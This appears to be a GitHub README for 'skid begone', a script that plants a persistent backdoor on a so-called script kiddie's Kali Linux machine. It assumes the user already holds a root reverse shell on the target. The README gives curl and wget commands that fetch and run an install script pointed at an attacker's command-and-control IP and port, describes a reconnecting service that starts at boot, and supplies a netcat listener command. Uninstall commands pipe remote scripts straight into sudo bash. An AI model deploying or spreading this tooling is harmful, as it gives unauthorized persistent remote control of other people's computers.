 # skid BEGONE!

How to backdoor a script kiddie's Kali Linux install within seconds.

This assumes that the skid is at [peak mt. stupid](DK-effect.png) and thinks that the ping command can DDOS NASA's supercomputers.

For your best enjoyment, please make sure that the skid in this case is running Kali on real hardware.

I hope to see your post on r/masterhacker using my script.

## Using the backdoor

### Prerequisites

- skid must be a wannabe hacker (see assumption above)
- you must obtain a root reverse-shell
- skid must run Kali (other distros *might* work too)

### Actually running the script

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/install.sh > /tmp/install.sh
bash /tmp/install.sh <IP OF THE C&C server> <FREE PORT ON THE C&C SERVER>
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/install.sh -O /tmp/install.sh
bash /tmp/install.sh <IP OF THE C&C server> <FREE PORT ON THE C&C SERVER>
```

By default the backdoor will start alongside other system services. If the service can't connect to the command and control server, it will wait for a few seconds and reconnect immediately after.

By "command and control server" I mean you, the one laughing right now, listening on the port you specified during install using netcat (here's the command: `nc -vlp <your port>`).

### Uninstalling

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/undo.sh | sudo bash
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/undo.sh -O - | sudo bash
```